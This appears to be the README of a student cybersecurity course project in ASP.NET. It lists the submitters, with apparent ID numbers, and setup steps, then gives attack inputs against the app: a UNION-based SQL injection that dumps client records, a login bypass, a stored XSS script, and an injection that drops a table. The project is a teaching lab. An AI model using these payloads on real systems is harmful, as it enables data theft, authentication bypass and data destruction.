 # Cyber course project in asp.net
## submitters: 
214882482 - Ido Shemi <br />
215329095 - Niv Aderet <br />
319274874 - Oleg Shehter <br />
207379769 - Idit Oksman

## installation guide
1. Clone the GitHub repository to your desktop.
2. Ensure that Visual Studio with ASP.NET extensions is installed.
3. Check if your computer has .NET Framework 4.8 installed.
4. Copy the DbConfig.json file to the appropriate directory (e.g., C:\Program Files\IIS Express).

## attack examples
* clients sql injection:<br />
    **user name:** 4' UNION SELECT client_id, org_id, name, surname, client_username FROM postgres.cyberschema1.clients WHERE '1'='1' --

* login sql injection: <br />
    **mail:** test@test.com' or '1'='1

* clients stored-xss:<br />
    **user name:** 2<script>alert("vulnerability found");</script>

* registration injection: <br />
    **mail:** test@test.com'; DROP TABLE postgres.cyberschema1.stam --
    
note *: the password complexity is false for convenience.
